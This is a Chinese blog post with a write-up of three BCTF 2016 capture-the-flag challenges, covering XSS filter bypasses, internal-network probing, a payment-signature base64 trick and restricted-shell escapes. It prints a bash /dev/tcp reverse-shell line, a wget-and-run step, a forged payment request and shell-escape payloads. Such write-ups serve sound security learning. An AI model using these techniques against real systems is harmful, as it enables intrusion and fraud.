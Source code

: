 ```yaml
---
id: 690
layout: post
title: 'bctf 部分writeup'
date: 2016-03-21 02:02:00
author: virusdefender
tags: 安全 CTF
---
```


又是一个和ctf一起度过的疲惫的周末。

QAQ
---
一个留言板，提交之后可以看到部分内容被过滤了，包括`on`、`script`、`img`等，最终发现`iframe`标签没被过滤，而且可以利用的是`src`和`srcdoc`属性，`srcdoc`使用html实体编码绕过。其中我遇到一个坑，就是开始认为`&`也被过滤了，而实际上是我没进行url编码，导致burp识别错误。

主办方的机器人一直不太稳定，第二天才真正的开始做这个题，xss探测结果是后台在`http://104.199.132.251/4dm1n/show.php`，cookies没啥用，页面源码也是只个列表，也没啥用。后来看到提示，说可以探测内网，想起使用webrtc，参考 http://www.wooyun.org/bugs/wooyun-2014-076685。


<!--more-->


payload见https://dl.dropboxusercontent.com/u/1878671/enumhosts.html，修改了代码，增加了回传ip信息。ip包括本机172.17.0.1，和三个192.168.1.x的，猜测就是192的了，但是使用js访问了一遍，都失败了，要不是不能访问，要不就是没设置跨域的http头。然后想起又访问了一遍172的内网，发现172.17.0.2是可以的，很高兴。

这个ip访问到的内容是

```php
<!--
header("Access-Control-Allow-Origin: *");
$ztz= 'system';
ob_start($ztz);
echo $_GET[c];
ob_end_flush();
-->
```

没有回显，需要反弹shell，使用`bash -i >& /dev/tcp/ip/port 0>&1`的没反应，猜测是遇到了编码的坑，换用了wget一个python脚本然后执行，然后反弹就成功了。


zerodaystore
------------
给了一个安卓apk和一段server的Python代码，代码见 https://gist.github.com/virusdefender/9aec40d6ae73ead56429

安卓大致的逆向了一下，就觉得order和pay的url是有用的，其余没啥问题。问题应该在server上，需要修改price。

可控的位置是`androidID`，一般混淆也就是它的值设置为`123&price=-1`，但是这里会在循环中被实际的price覆盖掉。

后来在想到需要利用Python的base64解码的特点，

```python
In [4]: import base64

In [5]: base64.b64encode("xxxxxxxxxx")
Out[5]: 'eHh4eHh4eHh4eA=='

In [6]: base64.b64decode("eHh4eHh4eHh4eA==")
Out[6]: 'xxxxxxxxxx'

In [7]: base64.b64decode("eHh4eHh4eHh4eA==!")
Out[7]: 'xxxxxxxxxx'

In [8]: base64.b64decode("eHh4eHh4eHh4eA==!eHh4eHh4eHh4eA==")
Out[8]: 'xxxxxxxxxx'
```

这样把price放在最后面就可以了。

```python
print requests.post("http://paygate.godric.me/pay", data="orderID=12368911859&price=80000&productID=1&timestamp=1458482306973&signer=RSA&hash=sha256&nonce=733d2f88ea74af8a&sign=TzdQaIa7qT/tTb6UNvzl25irdxiFYOj3hq932Wdozzkazsj1cIpzEhE2mnrUewwnuG2lPGpulqdMTGgMJgsUYWrKxEjpk3EKnWukgASyfap9N9EcsgKw67/2wJ00o1Nxc098jTxurLnW2lBfSXNQySDI+M7o0NzD58nYq/Rjzl3NkYFlF+fTf+ZxejM0J+uZCDDi7BZoFhTpFXrV0OPso6Ltefb+o0ZvI6YcBULHRdOVIhzhhnkY68xTBI2ULAH0OEttDls7PlLZnEYYuT92oSr7Q38W6ilpe1EG27czkVCVbuK3AMvfwaLbQnajuOrNz+JumG7TdFSbkwl8Rfgarw==!&price=-1").content
```

验证代码取到的sign就是带有`!&price=-1`的，但是base64解码后还和原来的是一样的，而解析price的时候却会读取到最后一个price。

结果是`{"status": 4, "data": "BCTF{0DayL0veR1chGuy5}"}`

hsab
----
一开始需要跑一段hash，还是需要暴力，不过还是挺快的。

> I would like some proof of work. Send me a string starting with
> 'vfgckhse', no whitespace, of length <= 63, such that its sha256 in
> binary starts with 20 bits of zeros.

```python
from zio import *
from hashlib import sha256
import sys
from os import urandom

io = zio(('104.199.132.199', 2222))
io.read_until('starting with \'')
t = io.read_until('\'')[:-1]


while True:
    x = urandom(8).encode('hex')
    if sha256(t + x).hexdigest().startswith('00000'):
        io.write(t + x+'\n')
        break
```

之后发现里面很多命令都没有了，比如`ls`、`cat`等，包括`gcc`、`python`之类的。之后发现输入`help`可以看到所有的命令。

在网上找到`echo /tmp/*`就相当于`ls /tmp`，就这样找到了`/home/ctf/flag.ray`，但是没有cat，没法读文件。

尝试使用重定向符号，但是只有重定向到文件是好的，比如`echo 123 > 456`，而反向的话就会报语法错误。

后来使用`bash -v flag.ray`搞定了。不加参数的话，就是输出`.bashrc`的内容。


后来听说还可以用用`dlcall`，但是我从没见过，只有https://github.com/taviso/ctypes.sh/wiki上有些介绍，看样子和C语言语法很像，但是写起来很奇怪。最终的payload是

```python
io.write('dlcall -n file -r pointer fopen "/home/ctf/flag.ray" "r"\n')
io.write('dlcall -n content -r pointer malloc 128\n')
io.write('dlcall -n text fread $content 128 1 $file\n')
io.write('dlcall printf $text\n')
```
